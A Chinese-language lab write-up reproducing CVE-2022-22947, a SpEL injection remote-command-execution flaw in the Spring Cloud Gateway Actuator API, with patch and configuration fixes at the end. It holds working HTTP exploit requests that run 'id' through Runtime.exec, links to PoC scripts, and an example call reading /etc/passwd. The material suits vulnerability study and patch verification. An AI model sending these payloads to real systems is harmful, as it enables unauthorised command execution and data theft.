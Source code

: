 # Spring Cloud Gateway Actuator API SpEL表达式注入命令执行（CVE-2022-22947）

### 0x00 前言

Spring Cloud Gateway是Spring中的一个API网关。其3.1.0及3.0.6版本（包含）以前存在一处SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。

**影响版本：**

```
Spring Cloud Gateway（3.1.x）< 3.1.1
Spring Cloud Gateway （3.0.x）< 3.0.7
Spring Cloud Gateway 其他已不再更新的版本
```

### 0x01 环境搭建

这里使用vulhub漏洞靶场

```shell
cd /opt/vulhub/spring/CVE-2022-22947
docker-compose up -d
```

访问`http://your-ip:8080`即可看到演示页面，这个页面的上游就是`example.com`。

![image-20230413121012004](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230413121012004.png)

### 0x02 POC/EXP脚本

cve_2022_22947_poc.py: `https://github.com/lcyunkong/pochub/blob/main/pochub/poc_list/web/Spring/cve_2022_22947_poc.py`

```python
# 利用：
# 在代码最后传入目标url即可，实例：
vuln_scan_start("http://192.168.12.130:8080")
```

cve_2022_22947_cmd.py: `https://github.com/lcyunkong/pochub/blob/main/pochub/poc_list/web/Spring/cve_2022_22947_cmd.py`

```python
# 利用：
# 在代码最后传入目标url和想要操作的命令即可，实例：
vuln_exploit_start("http://192.168.12.10:8080", "cat /etc/passwd")
```

### 0x03 手工复现

1、发送如下数据包即可添加一个包含恶意SpEL表达式的路由，执行`id`命令

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[] {\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}

```

![image-20230413211735522](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230413211735522.png)

2、发送如下数据包应用刚添加的路由。这个数据包将触发SpEL表达式的执行：

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

3、发送如下数据包即可查看执行结果：

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0



```

![image-20230413211422169](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230413211422169.png)

4、发送如下数据包清理现场，删除所添加的路由：

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

5、再刷新下路由：

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

此时在返回查看第三步的页面已经消失了

![image-20230413211644408](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230413211644408.png)

### 0x04 修复建议

1、升级到3.1.1+或3.0.7+版本，可以有效地避免该漏洞。

2、在不影响业务的前提下，通过将配置选项management.endpoint.gateway.enabled设置为false禁用Gateway Actuator端点。
